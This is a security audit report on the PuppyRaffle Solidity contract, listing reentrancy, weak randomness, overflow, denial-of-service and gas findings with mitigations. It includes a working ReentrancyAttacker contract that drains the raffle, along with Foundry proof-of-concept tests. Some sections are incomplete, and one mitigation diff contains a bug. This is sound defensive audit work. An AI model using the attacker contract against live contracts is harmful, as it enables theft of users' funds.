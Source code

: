 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo.svg" alt="Logo">
    <div>
    <h1>Puppy Raffle Protocol Audit Report</h1>
    <h3>Prepared by: Prince Allwin</h3>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->



# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance.](#h-1-reentrancy-attack-in-puppyrafflerefund-allows-entrant-to-drain-raffle-balance)
    - [\[H-2\] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to choose winner.](#h-2-weak-randomness-in-puppyraffleselectwinner-allows-anyone-to-choose-winner)
    - [\[H-3\] Integer overflow of `PuppyRaffle::totalFees` loses fees](#h-3-integer-overflow-of-puppyraffletotalfees-loses-fees)
    - [\[H-4\] Malicious winner can forever halt the raffle](#h-4-malicious-winner-can-forever-halt-the-raffle)
  - [Medium](#medium)
    - [\[M-1\] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service(DOS) attack, incrementing gas costs for future entrants.](#m-1-looping-through-players-array-to-check-for-duplicates-in-puppyraffleenterraffle-is-a-potential-denial-of-servicedos-attack-incrementing-gas-costs-for-future-entrants)
    - [\[M-2\] Unsafe cast of `PuppyRaffle::fee` loses fees](#m-2-unsafe-cast-of-puppyrafflefee-loses-fees)
    - [\[M-3\] Smart Contract wallet raffle winners without a `receive` or a `fallback` will block the start of a new contest](#m-3-smart-contract-wallet-raffle-winners-without-a-receive-or-a-fallback-will-block-the-start-of-a-new-contest)
  - [Low](#low)
    - [\[L-1\] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.](#l-1-puppyrafflegetactiveplayerindex-returns-0-for-non-existent-players-and-for-players-at-index-0-causing-a-player-at-index-0-to-incorrectly-think-they-have-not-entered-the-raffle)
  - [Gas](#gas)
    - [\[G-1\] Unchanged state variable should be declared constant or immutable.](#g-1-unchanged-state-variable-should-be-declared-constant-or-immutable)
    - [\[G-2\] Storage variables in a loop should be cached.](#g-2-storage-variables-in-a-loop-should-be-cached)
  - [Informational](#informational)
    - [\[I-1\] Solidity pragma should be specific, not wide](#i-1-solidity-pragma-should-be-specific-not-wide)
    - [\[I-2\] Using an outdated version of solidity is not recommended.](#i-2-using-an-outdated-version-of-solidity-is-not-recommended)
    - [\[I-3\] Missing checks for `address(0)` when assigning values to address state variables](#i-3-missing-checks-for-address0-when-assigning-values-to-address-state-variables)
    - [\[I-4\] `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice.](#i-4-puppyraffleselectwinner-does-not-follow-cei-which-is-not-a-best-practice)
    - [\[I-5\] Use of "magic" numbers is discouraged](#i-5-use-of-magic-numbers-is-discouraged)

# Protocol Summary
Puppy Rafle is a protocol dedicated to raffling off puppy NFTs with variying rarities. A portion of entrance fees go to the winner, and a fee is taken by another address decided by the protocol owner.

# Disclaimer

Prince Allwin and team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

Commit Hash:
```
22bbbb2c47f3f2b78c1b134590baf41383fd354f
```

## Scope 

./src/
-- PuppyRaffle.sol

## Roles
- Owner: The only one who can change the feeAddress, denominated by the _owner variable.
- Fee User: The user who takes a cut of raffle entrance fees. Denominated by the feeAddress variable.
- Raffle Entrant: Anyone who enters the raffle. Denominated by being in the players array.


# Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 4                      |
| Medium   | 3                      |
| Low      | 1                      |
| Gas      | 2                      |
| Info     | 5                      |
| Total    | 15                     |


# Findings

## High

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance.

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call, we update the `PuppyRaffle::players`

```js
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }
```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue the cycle till the contract balance is drained.

**Impact:** All fees paid by raffle entrants could be stoken by the malicious participant.

**Proof of Concept:**

1. Users enters the raffle.
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`.
3. Attacker enters the raffle.
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance.

<details>
<summary>Poc</summary>

Place the following in `PuppyRaffleTest.t.sol`

```js
    function test_Reentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 raffleBalanceBefore = address(puppyRaffle).balance;

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);

        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;

        vm.startPrank(attackUser);
        attackerContract.attack{value: entranceFee}();
        vm.stopPrank();
        // attacker has entered the raffle.

        uint256 endingAttackContractBalance = address(attackerContract).balance;
        uint256 raffleBalanceAfterAttack = address(puppyRaffle).balance;

        console.log("Starting attacker contract balance: ", startingAttackContractBalance);
        console.log("Starting Raffle Balance", raffleBalanceBefore);

        console.log("Ending attacker contract balance: ", endingAttackContractBalance);
        console.log("Raffle Balance After Attack", raffleBalanceAfterAttack);

        assertEq(endingAttackContractBalance, startingAttackContractBalance + 5 ether, "attackerContractBalance");
        assertEq(raffleBalanceAfterAttack, 0);
    }
```

And this contract as well

```js
	contract ReentrancyAttacker {
        PuppyRaffle private immutable i_victimContract;
        uint256 private immutable i_entranceFee;
        uint256 private s_attackerIndex;

        constructor(PuppyRaffle victimContract) {
            i_victimContract = PuppyRaffle(victimContract);
            i_entranceFee = victimContract.entranceFee();
        }

        function attack() external payable {
            address[] memory players = new address[](1);
            players[0] = address(this);
            i_victimContract.enterRaffle{value: i_entranceFee}(players);

            s_attackerIndex = i_victimContract.getActivePlayerIndex(address(this));
            i_victimContract.refund(s_attackerIndex);
        }

        function _stealMoney() internal {
            if (address(i_victimContract).balance > 0) {
                i_victimContract.refund(s_attackerIndex);
            }
        }

        receive() external payable {
            _stealMoney();
        }

        fallback() external payable {
            _stealMoney();
        }
    }
```

</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

- By following the above steps we are statisfying CEI.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

       	payable(msg.sender).sendValue(entranceFee);

-		players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

- Also, Reentrancy Guard from [Openzeppelin](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) can be used.


### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to choose winner.

**Description:** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` together creates a predictable final number. A predictable random number is not a good random number. Malicious users can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.

**Note:** This additional means users could front-run this function and call `refund` if they see they are not the winner.

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. Making the entire raffle worthless of it becomes a gas war as to who wins the raffles.

**Proof of Concept:**

There are few attack vectors here.

1. Validators can know ahead of time the `block.timestamp` and 	`block.difficulty` and use that to predict when/how to participate. See the [solidity blog on prevrandao](https://soliditydeveloper.com/prevrandao). `block.difficulty` was recently replaced with prevrandao.
2. User can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner!
   
Using on-chain values as a randomness seed is a [well-known attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

**Recommended Mitigation:** Consider using an oracle for your randomness like [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction).

### [H-3] Integer overflow of `PuppyRaffle::totalFees` loses fees

**Description:** In solidity versions prior to `0.8.0` integers were subject to integer overflows.

```js
    uint64 myVar = type(uint64).max
    // 18446744073709551615

    myVar = myVar + 1
    // myVar will be 0
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `feeAddress` to collect later in  `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:**

1. We conclude a raffle of 4 players
2. We then have 100 players enter a new raffle, and conclude the raffle.
3. `totalFees` will be:
```js
uint256 totalFees = 0;
uint256 fee = (totalAmountCollected * 20) / 100;
totalFees = totalFees + uint64(fee);

// first 4 players enter the raffle by 1 eth each
// uint256 fee = (totalAmountCollected * 20) / 100;
// totalFees = totalFees + uint64(fee);
// totalFees = 0 + uint64(800000000000000000)
// totalFees = 800000000000000000;

// Next 89 players enter the raffle
// totalAmountCollected = 100*1e18 = 100e18
// uint256 fee = (totalAmountCollected * 20) / 100;
// uint256 fee = 20000000000000000000
// totalFees = totalFees + uint64(fee);
// totalFees = 800000000000000000 + uint64(20000000000000000000)
// totalFees = 800000000000000000 + 1553255926290448384
// uint64(20000000000000000000) typecasting from uint256 to uint64 results in a overflow
// we got 1553255926290448384
// which is not the right answer
// the reason we got this number is
// 20000000000000000000 - 18446744073709551615 = 1.553255926290448e18
// since it overflowed, it subtracted the given number with type(uint64).max
// If we add, we will get a very low value in fees
```
4. You will be not able to withdraw, due to the line in `PuppyRaffle::withdrawFees`:
```js
require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Although you could use `selfDestruct` to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not the intended design of the protocol. At some point, there will be too much `balance` in the contract that the above `require` will be impossible to hit.

<details>
<summary>Code</summary>

```js
    function test_TotalFeesOverflow() public playersEntered {
        // we finish a raffle of 4 to collect some fees

        // simulate raffle duration is over
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        // startingTotalFees = 20% of entranceFee
        // 4 players has entered 4 * 1e18 = 4e18
        // 20% of 4e18 = 0.8e18

        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);

        // simulate raffle duration is over
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        puppyRaffle.selectWinner();
        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("ending Total Fees", endingTotalFees);
        assertLt(endingTotalFees, startingTotalFees);

        // we are also unable to withdraw any fees because of the require check
        vm.startPrank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
        vm.stopPrank();
    }
```
</details>

**Recommended Mitigation:** There are a few possible mitigations.

1. Use a newer version of Solidity that does not allow integer overflows by default.
```diff
- pragma solidity ^0.7.6;
+ pragma solidity ^0.8.18;
```
Alternatively, if you want to use an older version of Solidity, you can use a library like OpenZeppelin's SafeMath to prevent integer overflows.
2. Use a uint256 instead of a uint64 for totalFees.
```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;
```
3. Remove the balance check from `PuppyRaffle::withdrawFees`
```diff
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

We additionally want to bring your attention to another attack vector as a result of this line in a future finding.

### [H-4] Malicious winner can forever halt the raffle

**Description:** Once the winner is chosen, the selectWinner function sends the prize to the the corresponding address with an external call to the winner account.

```js
(bool success,) = winner.call{value: prizePool}("");
require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

## Medium

### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service(DOS) attack, incrementing gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make.

```js
// @audit Dos Attack
@>  for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::entrants` array so big, that no else enters, guaranteeing themselves the win.

**Proof of Concept:**

If we have 2 set of 100 players to enter, the gas costs will be as such:
- 1st 100 players: ~  6,252,039 gas 
- 2nd 100 players: ~ 18,068,130 gas

This is more than 3x more expensive for the seconds 100 players.

<details>
<summary>Poc</summary>
Place the following test into `PuppyRaffleTest.t.sol`

```js
    function test_denialOfService() public {
        vm.txGasPrice(1);

        // let's enter 100 players
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        uint256 gasStartFirst = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        uint256 gasEndFirst = gasleft();
        uint256 gasUsedFirst = (gasStartFirst - gasEndFirst) * tx.gasprice;

        console.log("Gas Cost for the first %s players ->", playersNum, gasUsedFirst);

        // now for the 2nd 100 players
        address[] memory playersTwo = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }

        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;

        console.log("Gas Cost for the second %s players ->", playersNum, gasUsedSecond);

        assertLt(gasUsedFirst, gasUsedSecond);

        // Logs:
        //     Gas Cost for the first 100 players -> 6252039
        //     Gas Cost for the second 100 players -> 18068130
    }
```

</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check dosen't prevent the same person from entering multiple times, only the same wallet address.

2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.


```diff
+   mapping(address => uint256) public s_addressToRaffleId;
+   uint256 public raffleId = 0;
.
.
.
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
+           // Check for duplicates only from the new players
+           require(s_addressToRaffleId[i] != raffleId, "PuppyRaffle: Duplicate player");
            players.push(newPlayers[i]);
            addressToRaffleId[newPlayers[i]] = raffleId;
        }

-       // check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }
    }

    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
    }
```

Alternatively, you could use [Openzeppelin's `EnumerableSet` library](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/structs/EnumerableSet.sol)

### [M-2] Unsafe cast of `PuppyRaffle::fee` loses fees

**Description:** In `PuppyRaffle::selectWinner` their is a type cast of a `uint256` to a `uint64`. This is an unsafe cast, and if the `uint256` is larger than `type(uint64).max`, the value will be truncated. 

```javascript
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 fee = totalFees / 10;
        uint256 winnings = address(this).balance - fee;
@>      totalFees = totalFees + uint64(fee);
        players = new address[](0);
        emit RaffleWinner(winner, winnings);
    }
```

The max value of a `uint64` is `18446744073709551615`. In terms of ETH, this is only ~`18` ETH. Meaning, if more than 18ETH of fees are collected, the `fee` casting will truncate the value. 

**Impact:** This means the `feeAddress` will not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:** 

1. A raffle proceeds with a little more than 18 ETH worth of fees collected
2. The line that casts the `fee` as a `uint64` hits
3. `totalFees` is incorrectly updated with a lower amount

You can replicate this in foundry's chisel by running the following:

```javascript
uint256 max = type(uint64).max
uint256 fee = max + 1
uint64(fee)
// prints 0
```

**Recommended Mitigation:** Set `PuppyRaffle::totalFees` to a `uint256` instead of a `uint64`, and remove the casting. Their is a comment which says:

```javascript
// We do some storage packing to save gas
```
But the potential gas saved isn't worth it if we have to recast and this bug exists. 

```diff
-   uint64 public totalFees = 0;
+   uint256 public totalFees = 0;
.
.
.
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
-       totalFees = totalFees + uint64(fee);
+       totalFees = totalFees + fee;
```

### [M-3] Smart Contract wallet raffle winners without a `receive` or a `fallback` will block the start of a new contest

**Description:** The `PuppyRaffle::selectWinner` function is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payment, the lottery would not be able to restart. 

Non-smart contract wallet users could reenter, but it might cost them a lot of gas due to the duplicate check.

**Impact:** The `PuppyRaffle::selectWinner` function could revert many times, and make it very difficult to reset the lottery, preventing a new one from starting. 

Also, true winners would not be able to get paid out, and someone else would win their money!

**Proof of Concept:** 
1. 10 smart contract wallets enter the lottery without a fallback or receive function.
2. The lottery ends
3. The `selectWinner` function wouldn't work, even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

1. Do not allow smart contract wallet entrants (not recommended)
2. Create a mapping of addresses -> payout so winners can pull their funds out themselves, putting the owness on the winner to claim their prize. (Recommended)

## Low

### [L-1] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.

**Description:** If a player is in the `PuppyRaffle::players` array at index 0, this will return 0, but according to the natspec, it will also return 0 if the player is not in the array.

```js
@>	/// @return the index of the player in the array, if they are not active, it returns 0
	function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
@>      return 0;
    }
```

**Impact:** A player at index 0 may incorrectly think they have not entered the raffle, and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are the first entrant.
2. `PuppyRaffle::getActivePlayerIndex` returns 0.
3. User thinks they have not entered correctly due to the function documentation.

**Recommended Mitigation:** The easiest recommendation would be to revert if the player is not in the array instead of returning 0.

You could also reserve the 0th position for any competition, but a better soultion might be to return an `int256` where the function returns `-1` if the player is not active.

## Gas

### [G-1] Unchanged state variable should be declared constant or immutable.

Instances:
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

Reading from storage is much more expensive than reading from a constant or immutable variable.

### [G-2] Storage variables in a loop should be cached.

Everytime you call `players.length` you read from storage, as opposed from memory which is more gas efficient.

```diff
+   uint256 playersLength = players.length;
-   for (uint256 i = 0; i < players.length - 1; i++) {
+   for (uint256 i = 0; i < playersLength - 1; i++) {
-       for (uint256 j = i + 1; j < players.length; j++) {
+       for (uint256 j = i + 1; j < playersLength; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

## Informational

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

### [I-2] Using an outdated version of solidity is not recommended.

**Description:** solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation:** Deploy with any of the following Solidity versions:

`0.8.18`
The recommendations take into account:
- Risks related to recent releases
- Risks of complex code generation changes
- Risks of new language features
- Risks of known bugs
- Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

Please see [Slither](https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity) documentation for more information.

### [I-3] Missing checks for `address(0)` when assigning values to address state variables

Assigning values to address state variables without checking for `address(0)`.

Instances:
`PuppyRaffle::feeAddress`

### [I-4] `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice.

It's best to keep code clean and follow CEI (Checks, Effects, Interactions).

```diff
	function selectWinner() external {
		.
		.
		.
-		(bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+		(bool success,) = winner.call{value: prizePool}("");
+       require(success, "PuppyRaffle: Failed to send prize pool to winner");
	}

```

### [I-5] Use of "magic" numbers is discouraged

It can be confusing to see number literals in a codebase, and it's much more readable if the number are given a name.

Examples:

```js
	uint256 prizePool = (totalAmountCollected * 80) / 100;
    uint256 fee = (totalAmountCollected * 20) / 100;
```

Instead, you could use:

``` js
	uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
	uint256 public constant FEE_PERCENTAGE = 20;
	uint256 public constant POOL_PRECISION = 100;
```
